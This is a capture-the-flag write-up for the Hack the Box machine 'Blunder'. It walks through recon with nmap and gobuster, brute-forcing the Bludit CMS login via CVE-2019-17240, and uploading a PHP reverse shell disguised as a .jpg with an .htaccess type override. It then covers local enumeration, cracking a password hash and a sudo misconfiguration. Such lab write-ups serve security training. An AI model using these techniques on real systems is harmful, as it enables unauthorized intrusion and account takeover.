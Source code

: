 # Hack the Box - Blunder
```CSS
Machine IP: 10.10.10.191
```

# Reconnaissance

## NMAP
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.191 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.191
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE  SERVICE
21/tcp closed ftp
80/tcp open   http
Device type: general purpose|storage-misc|WAP
Running (JUST GUESSING): Linux 5.X|4.X|2.6.X|3.X (98%), HP embedded (91%), Ubiquiti AirOS 5.X (89%), Ubiquiti embedded (89%)
OS CPE: cpe:/o:linux:linux_kernel:5.0 cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6.32 cpe:/o:linux:linux_kernel:3 cpe:/o:ubnt:airos:5.2.6 cpe:/h:ubnt:airmax_nanostation
Aggressive OS guesses: Linux 5.0 (98%), Linux 5.4 (93%), Linux 5.0 - 5.4 (93%), HP P2000 G3 NAS device (91%), Linux 4.15 - 5.6 (91%), Linux 5.3 - 5.4 (90%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Linux 5.1 (90%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%)
No exact OS matches for host (test conditions non-ideal).

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.49 seconds
```

```CSS
▶ nmap -sC -sV -p 21,80 10.10.10.191 -oN services.nmap

Nmap scan report for 10.10.10.191
Host is up (0.18s latency).

PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Blunder
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.23 seconds
```

---

## HTTP 80
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f70628d0-2b79-45bb-af4e-e683b063aa20)

---

## Content Discovery

```CSS
▶ gobuster dir --url http://10.10.10.191 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --threads 20
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4075b582-c7ff-44a4-8767-fe978f218cc9)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ae1ef991-a735-481f-ac4e-fbac773d364d)
  - `Bludit` admin login.

```CSS
▶ gobuster dir --url http://10.10.10.191 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --threads 20
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c1979746-2805-426a-9824-c5f46d09a09b)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3fe67c23-2588-4b30-82d4-0038d697ee17)
  - Probably the CMS is running an older version.
  - Potential username `fergus`.

---

## Brute-Force Credentials
  - A potential username `fergus` is found. Attempt to brute-force the password of this user for the CMS.

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5486ce91-06ec-466f-b912-f9d4066152f0)
  - IP address gets banned after a few tries to brute-force the password.

### Brute-Force Mitigation Bypass
  - Search for bypassing brute-force protection.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c7a9919b-9581-433c-b2e9-8670b9fb257c)

  - Google search.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d7d3f417-9f2d-42ab-910e-7430ef76d1fb)
  - Bludit Brute-force Mitigation Bypass (CVE-2019-17240)

  - https://github.com/ColdFusionX/CVE-2019-17240_Bludit-BF-Bypass
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/1b80229c-69f6-4496-975e-6bf906725572)

```CSS
▶ python exploit.py -l http://10.10.10.191/admin/login.php -u users.txt -p passwords.txt
```
  - Valid password `RolandDeschain` found for the user `fergus`.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8795423e-82bb-40fe-b9d5-c0caeb7668de)

Login with the credentials to the Bludit dashboard.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/46f720ab-ae30-4bb4-a20a-f1f07d6ddf4c)

- Login successful to Dashboard.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6fb1a617-4f08-4d12-a236-b860b18cbea5)

---

  - Search for exploits.
  - Bludit RCE - https://github.com/bludit/bludit/issues/1081


![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/190c2241-d3d6-46b8-a6aa-f0e8dfbcf2a5)

  - Upload a php reverse shell to the target machine.
```CSS
▶ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```
  - Change the IP address and Port in the shell code.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f91738d7-102a-4418-b21f-3f3eddac9b06)
  - Change the extension of the shell file from `.php` to `.jpg`.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2a4f8ae9-a014-4322-bcac-c0c22263a038)

  - Upload the shell and modify the `UUID` by intercepting the upload request in burpsuite.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/dfcd390f-c71c-4994-8469-4a26e2c0d8cd)
  - Also upload the `htaccess` file to make the `jpg` executable as `php`.

Contents of `htaccess` file.
```CSS
RewriteEngine off
AddType application/x-httpd-php .jpg
```

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/dea6a20e-07fa-490d-976b-9a3217c9ac52)
  - Browse to the location of the uploaded shell.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b470b90a-15ac-4c31-b032-f7802aafd02f)
  - Start a `netcat` listener.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/53d65f09-2a0b-4c90-b6e0-1a3cfec4bc76)

Upgrade shell to TTY
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/25c44c5d-61c4-42e6-b151-c7c772da3596)

  - Uploading `linpeas.sh`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/abaeecce-bd2b-454c-b2f8-5d4baaf153c4)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/25c2b341-5f95-4700-acf2-ca3b60184014)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/bead94c5-d1c7-4bb2-a641-ff86f1d56f54)
```CSS
Username: Hugo
Password: faca404fd5c0a31cf1897b823c695c85cffeb98d
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/38669c8c-0d90-416d-bac8-ba5e87c3d283)
```CSS
Cracked Password: Password120
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/bc4af429-04ab-4bb3-907e-a1cfe46b0eaf)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ce367232-cff3-49d1-8cee-1e29c348018f)

```CSS
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b892c926-361e-4cb7-a5db-cebb5e6149c8)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/446ccef4-6779-47cc-8a9c-88a77a953e31)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/220cf239-203f-44ab-8768-441cdb18ec03)
